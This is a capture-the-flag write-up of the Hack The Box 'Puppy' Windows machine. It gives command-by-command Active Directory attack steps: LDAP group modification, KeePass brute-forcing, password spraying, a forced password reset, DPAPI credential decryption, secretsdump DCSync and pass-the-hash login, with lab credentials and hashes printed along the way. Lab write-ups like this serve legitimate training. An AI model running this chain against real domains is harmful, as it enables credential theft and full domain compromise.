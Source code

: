 ```yaml
---
title: Puppy - HTB
date: 2025-06-8 14:00:00 +0200
categories: [Hack The Box, Windows]
tags: [AD , priv-escalation , DPAPI-Dump , DCSYNC]
toc: true
comments: true
image: ./assets/img/attachments/puppy-24.png
imageNameKey: puppy
---
```


Hey everyone! It’s me again—although it’s only been a month since my last post, today I’m diving into how I pwned the Puppy machine. I really enjoyed solving this one and learned so much along the way. This 6/1000

## Port Scanning and Enumeration
I ran nmap scan for the top 1000 port 
```bash
nmap -sS 10.10.11.70 -F -T4 -sV -O

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-30 18:44 EDT
Nmap scan report for 10.10.11.70
Host is up (0.46s latency).
Not shown: 92 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-31 05:21:30Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

```
It's obvious that we are dealing with AD environment! i added the domain name beside its ip in /etc/hosts and will start digging in smb shares
```bash
crackmapexec smb puppy.htb -u levi.james -p 'KingofAkron2025!' --shares

SMB         puppy.htb       445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         puppy.htb       445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         puppy.htb       445    DC               [+] Enumerated shares
SMB         puppy.htb       445    DC               Share           Permissions     Remark
SMB         puppy.htb       445    DC               -----           -----------     ------
SMB         puppy.htb       445    DC               ADMIN$                          Remote Admin
SMB         puppy.htb       445    DC               C$                              Default share
SMB         puppy.htb       445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         puppy.htb       445    DC               IPC$            READ            Remote IPC
SMB         puppy.htb       445    DC               NETLOGON        READ            Logon server share 
SMB         puppy.htb       445    DC               SYSVOL          READ            Logon server share 

```

DEV looks interesting, I will use smbclient to enumerate this shares
```bash
smbclient //puppy.htb/DEV -U 'levi.james%KingofAkron2025!'
```

But access was denied, i couldn't list or view anything, next will try ldap enumeration
```bash
ldapdomaindump ldap://10.10.11.70 -u "puppy.htb\levi.james" -p 'KingofAkron2025!'
```

From here i got valid usernames and groups, tried AS-REP Roasting but didn't work, and since i couldn't get a GUI access from the credentials I have, I will enumerate this domain using bloodhound.py

```bash
bloodhound-python -u levi.james -p 'KingofAkron2025!' -d puppy.htb -dc DC.puppy.htb -c All --zip -ns 10.10.11.70
```
## Abusing ACL's
Then adding the zip file to Bloodhound GUI:
![w](/assets/img/attachments/puppy.png)

We got generic write on developers group!, so now we can add ourselves to this group
From ldap files that we got before, i will levis.james exact info 
![w](/assets/img/attachments/puppy-1.png)

and will create a .ldif file to modify ldap with it
```ldap
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
```

Then
```bash
ldapmodify -x -H ldap://10.10.11.70 -D "levi.james@puppy.htb" -w 'KingofAkron2025!' -f mod.ldif
```

lets verify:
![w](/assets/img/attachments/puppy-2.png)

Now do u remember smb shares (DEV) that we couldn't list?
```bash
smbclient //puppy.htb/DEV -U 'levi.james%KingofAkron2025!'

> prompt OFF
> recurse ON
> mget *
```

 recovery.kdbx looks really catchy!
 But it needs password, I tried to search on a hardcoded password in `KeePassXC-2.7.9-Win64.msi` but with no look, so the next step is to brute force the pass. John didnt work (gave an error of file not supported) 
 We need to find a tool to crack a v 4 of kdbx file
 [This tool can do it!](https://github.com/r3nt0n/keepass4brute/blob/master/keepass4brute.sh)
 
```bash
./keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
```
![w](/assets/img/attachments/puppy-3.png)
We got the password!

![w](/assets/img/attachments/puppy-4.png)
And now we have those users' password, let's find out which is valid!
We will be using the list of valid usernames that we used at AS-REP roasting attack at the beginning! + Password spraying using the passwords in this file

```bash
nxc smb 10.10.11.70 -u usernames.txt -p pass.txt
```
![w](/assets/img/attachments/puppy-5.png)
We got a valid username and password! However, I couldn't get a GUI with this user either. Let's check Bloodhound.

![w](/assets/img/attachments/puppy-6.png)
I'm in a group that have generic all on Adam Silver account! now I will try to change this user password, this part was really tricky!
## Modifying password externally
```bash
impacket-changepasswd puppy.htb/adam.silver@10.10.11.70 -newpass 'newP@ssw0rd123456!' -altuser puppy.htb/ant.edwards -altpass 'Antman2025!' -reset
```
Make sure the new password u set is acceptable by password policy (no weak password).
![w](/assets/img/attachments/puppy-7.png)
I couldn't log in after that. After a lot of searching, I found out that the account might have been **disabled by the DC** since we changed the password using **Impacket**.
```bash
rpcclient -U 'puppy.htb/ant.edwards%Antman2025!' 10.10.11.70 
> queryuser adam.silver
```

![w](/assets/img/attachments/puppy-8.png)
Now we need to reenable it
```bash
ldapmodify -x -D "ant.edwards@puppy.htb" -w 'Antman2025!' -H ldap://10.10.11.70
```
```ldif
dn: CN=ADAM D. SILVER,CN=Users,DC=puppy,DC=htb
changetype: modify
replace: userAccountControl
userAccountControl: 16
```
![w](/assets/img/attachments/puppy-9.png)

And to verify it worked, will run rpcclient again (or Ldapsearch)
![w](/assets/img/attachments/puppy-10.png)

And finally we have terminal access!
```bash
evil-winrm -i 10.10.11.70 -u adam.silver -p 'newP@ssw0rd123456!'  
```
## Priv Escalation
![w](/assets/img/attachments/puppy-11.png)

I used sharphound on this victim
```powershell
sharphound.exe -c ALL
```
But got nothing new, i run winpeas but found nothing intrested too.
After some digging, there is a folder named bakup and root directory

![w](/assets/img/attachments/puppy-12.png)

i downloaded this file 
![w](/assets/img/attachments/puppy-13.png)
## DPAPI Dump
And found in it this user password, lets test if its valid or not
![w](/assets/img/attachments/puppy-14.png)

I think its a hint for us, a DPAPI blobs may be found under `C:\Users\<username>\AppData\Roaming\Microsoft\Protect`, `APPDATA\Microsoft\Credentials\` & `LOCALAPPDATA\Microsoft\Vault\` so lets check

![w](/assets/img/attachments/puppy-15.png)
![w](/assets/img/attachments/puppy-16.png)
Found those hidden files, but since they are hidden we won't be able to downlaod them using download command
### Downloading hidden files
First we must
```powershell
attrib -h -s C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
```
and repeat for alll.

![w](/assets/img/attachments/puppy-17.png)
Then download
Now we have the key ingredients for a DPAPI master key decryption
- C8D69EBE9A43E9DEBF6B5FBD48B521B9 is blob.dpc
- 556a2412-1275-4ccf-b721-e6a0b4f90407 is the master key 
- S-1-5-21-1487982659-1829050783-2281216199-1107 SID

**First step:** is to decrypt the master key 
```bash
dpapi.py masterkey -file mkfile -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```
![w](/assets/img/attachments/puppy-18.png)

Now we use the decrypted key to get blob.dpc content
```bash
dpapi.py credential -file blob.dpc -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```
![w](/assets/img/attachments/puppy-19.png)
## DCSync Attack
Great! we got the administrator's password! he was in domain admins group if u remember.
![w](/assets/img/attachments/puppy-20.png)

We can dump all user hashes!
**There's two methods:**
1- downloading folder containing dumped Registry Hives via PowerShell
2- or using secretdump.py with the valid credentials we got!

```bash
secretsdump.py 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!'@10.10.11.70
```
![w](/assets/img/attachments/puppy-21.png)
Then we connect using evil-winrm
```bash
evil-winrm -i 10.10.11.70 -u Administrator -H bb0edc15e49ceb4120c7bd7e6e65d75b
```
![w](/assets/img/attachments/puppy-22.png)
![w](/assets/img/attachments/puppy-23.png)
and Done! see u later 
